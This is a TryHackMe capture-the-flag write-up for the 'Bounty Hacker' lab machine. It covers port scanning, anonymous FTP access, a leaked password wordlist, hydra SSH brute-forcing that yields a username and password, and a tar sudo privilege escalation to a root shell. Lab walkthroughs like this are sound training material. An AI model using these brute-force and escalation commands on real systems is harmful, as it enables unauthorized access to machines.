 ```bash
# PLATFORM          . THM
# CTF NAME          . Bounty Hacker
# DESCRIPTION       . You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cowboyhacker
```

```bash
sudo nmap -sSVC -T5 10.10.150.34 -p- -oN BountyHacker
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

- We see that `FTP` allows for `anonymous` login. 

- Let's connect using `ftp -A 10.10.150.34`

```bash
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.

-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

```task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

- The `locks.txt` file seems to be a dictionary of passwords, so I've tried bruteforcing the `ssh` with both `vicious` and `lin` as username.

```bash
hydra -l vicious -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
hydra -l lin -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
```

```
[DATA] attacking ssh://10.10.150.34:22/
[22][ssh] host: 10.10.150.34   login: lin   password: RedDr4gonSynd1cat3
```

- Once we're logged in to the machine, I've checked `sudo -l` and we can run `tar` as sudo.

- According to GTFObins, this could lead to a privilege escalation vector by using 

```bash

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- First flag is at /home/lin/user.txt
- Second flag is at /root/root.txt

